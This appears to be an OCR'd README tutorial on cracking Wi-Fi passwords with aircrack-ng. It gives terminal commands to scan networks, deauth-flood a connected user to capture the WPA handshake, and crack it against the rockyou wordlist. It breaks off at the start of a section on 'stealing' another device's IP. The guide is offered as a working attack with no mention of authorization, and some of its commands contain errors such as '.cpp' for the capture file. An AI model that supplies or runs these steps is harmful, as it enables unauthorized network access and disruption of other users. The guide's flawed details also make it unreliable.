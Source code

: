 * check networks available nearby
```
 $ airodump-ng wlan0
```

* Quite checking 
```
command + c
```

* info about network to be interrupted
```
 $ airodump-ng wlan0 -bssid (e.g 7C:A9:6B:50:43:45) --channel 11 --write (e.g test)
 ```

* disconnect one of the user/station to get the handshake file.
> Note: The handshake file is generated when any user sends request to connect to the router.<br>

**For Handshake File**

* Open new tab in terminal and give the root access
```
 $ sudo su
```

* *Deauth flooding* is done again to disconnect the user and stopped to let the user generate the handshake file
```
$ aireplay-ng --deauth 10(i.e no of packets) -a (BSSID of Router) -c (BSSID of User)
```
* now check for handshake file<br>
> Note: Detection of the handshake file is shown in top right corner.

* list down files in new terminal and find capture file with extension '.cap'

i. For *Old Wifi-Technology* (i.e WPA) to crack we can directly use the tool aircrack-ng i.e
```
 $ aircrack-ng (.cpp file name)
```

ii. For *New Wifi-Technology* (i.e WPA2/3) to crack we use *Wordlist*
```
 $ aircrack-ng (e.g hacked-02.cap) -w 10-million-password-list-top-1000000.txt
 ```
Example of Kali-Wordlist: /usr/share/wordlists/rockyou.txt
 > Note: Sometimes rockyou.txt is zipped, so use unzip command first by changing location i.e cd

 **ACCOMPLISHED!**

 ## IP Spoofing - Stealing Other's IP

 * Root permission is given
 ```
  $ sudo su
```

* Change to real hardware interface
    1. Edit
    2. Virtual Network Editor
    3. Select Bridge Type
    4. Bridge to whichever Hardware Wifi Stick (i.e Wifi Adapter)
